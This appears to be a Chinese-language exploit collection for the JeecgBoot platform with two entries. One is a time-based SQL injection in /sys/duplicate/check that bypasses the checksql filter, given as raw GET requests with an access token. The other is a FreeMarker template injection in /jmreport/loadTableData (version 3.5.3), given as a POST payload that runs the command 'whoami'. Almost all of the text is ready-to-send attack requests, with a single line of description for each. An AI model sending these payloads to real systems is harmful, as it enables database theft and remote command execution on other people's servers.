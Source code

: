   
## jeecg-boot sys/duplicate/check SQL注入  

```
/sys/duplicate/check 接口SQL注入，checksql可以被绕过，该漏洞需要进行身份认证。
GET /jeecg-boot/sys/duplicate/check?tableName=v3_hello&fieldName=1+and%09if(user(%20)='root@localhost',sleep(0),sleep(0))&fieldVal=1&dataId=asd HTTP/1.1
Host: 
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.5060.114 Safari/537.36
Connection: close
Cache-Control: max-age=0
X_ACCESS_TOKEN: eyJ0eXAi0iJKV1QiLCJhbGci0iJIUzI1Ni J9.eyJleHAi0jE2NzA2NjUy0TQsInVzZXJ uYW1lIjoiYWRtaW4i fQ.bL0e7k3rbFEewdMoL2YfPCo9rtzx7g9 KLjB2LK-J9SU
GET /jeecg-boot/sys/duplicate/check?tableName=sys_log&fieldName=1+and%09if(user(%20)='root@localhost',sleep(0),sleep(10))&fieldVal=1000&dataId=2000 HTTP/1.1
Host: 
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.5060.114 Safari/537.36
Connection: close
Cache-Control: max-age=0
X_ACCESS_TOKEN: eyJ0eXAi0iJKV1QiLCJhbGci0iJIUzI1Ni J9.eyJleHAi0jE2NzA2NjUy0TQsInVzZXJ uYW1lIjoiYWRtaW4i fQ.bL0e7k3rbFEewdMoL2YfPCo9rtzx7g9 KLjB2LK-J9SU
```

  
## JeecgBoot jmreport/loadTableData SSTI模板注入漏洞  

```
jeecg-boot 版本 3.5.3 中的 SSTI 注入漏洞允许远程攻击者通过对 /jmreport/loadTableData 组件进行精心设计的 HTTP 请求执行任意代码。
POST /jeecg-boot/jmreport/loadTableData HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/116.0
Accept: application/json, text/plain, */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/json;charset=UTF-8
X-Sign: AD0488642A880C68C8E3551C3BE0F6F5
X-TIMESTAMP: 1699726206096
X-Access-Token: null
token: null
JmReport-Tenant-Id: null
Content-Length: 167
Connection: close
Cookie: Hm_lvt_5819d05c0869771ff6e6a81cdec5b2e8=1699726144; Hm_lpvt_5819d05c0869771ff6e6a81cdec5b2e8=1699726162
{&#34;dbSource&#34;:&#34;&#34;,&#34;sql&#34;:&#34;select '<#assign value=\&#34;freemarker.template.utility.Execute\&#34;?new()>${value(\&#34;whoami\&#34;)}'&#34;,&#34;tableName&#34;:&#34;test_demo);&#34;,&#34;pageNo&#34;:1,&#34;pageSize&#34;:10}
```

